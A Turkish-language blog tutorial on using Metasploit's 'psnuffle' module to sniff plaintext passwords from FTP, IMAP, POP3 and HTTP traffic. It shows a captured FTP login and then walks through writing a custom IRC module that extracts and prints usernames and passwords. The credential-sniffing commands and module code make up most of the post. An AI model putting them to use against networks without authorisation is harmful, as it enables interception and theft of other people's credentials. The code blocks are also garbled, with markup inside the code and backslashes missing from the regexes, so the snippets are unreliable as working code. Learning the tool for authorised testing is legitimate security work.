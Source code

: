 ```yaml
---
draft: false

title:  'MSF İçinde Parola Dinleme'
date: '2017-05-16T12:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.' 
 
url:  /tr/msf-icinde-parola-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.



`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.


```bash
msf **>** use auxiliary/sniffer/psnuffle
msf auxiliary**(**psnuffle**)** **>** show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string **for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait **for **new data

msf auxiliary**(**psnuffle**)** **>** run
**[*********]** Auxiliary module execution completed
**[*********]** Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
**[*********]** Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
**[*********]** Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
**[*********]** Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
**[*********]** Sniffing traffic.....
**[*********]** Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **>>** victim / pass **(**220 3Com 3CDaemon FTP Server Version 2.0**)**
```



Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.



## Psnuffle Özelleştirme



İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.



Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.



Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.


```bash
self.sigs **=** **{**
:ok **=>** /^**(**+OK[^n]*******)**n/si,
:err **=>** /^**(**-ERR**[**^n]*******)**n/si,
:user **=>** /^USERs+**([**^n]+**)**n/si,
:pass **=>** /^PASSs+**([**^n]+**)**n/si,
:quit **=>** /^**(**QUITs*******[**^n]*******)**n/si **}**
```



## IRC Modülü



Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.



Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.


```bash
self.sigs = {
:user => /^(NICKs+[^n]+)/si,
:pass => /b(IDENTIFYs+[^n]+)/si,}
```



## Oturum Tanımlama (Session)



Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.


```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** **(**pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667**)** # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** **(**pkt[:tcp].dst_port **==** 6667**)** # When packet is sent to server
s **=** find_session**(**"#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}"**)**
**else** # When packet is coming from the server
s **=** find_session**(**"#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}"**)**
end
```



Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.


```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]**=**matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]**=**matches # Store the password into the session hash s as well
**if** **(**s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-> IRC login sniffed: #{s[:session]} >> username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete**(**s[:session]**)** # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k **=>** matches**})** # Just add it to the session object
end
```



Tebrikler kendi modülünüzü yazdınız.
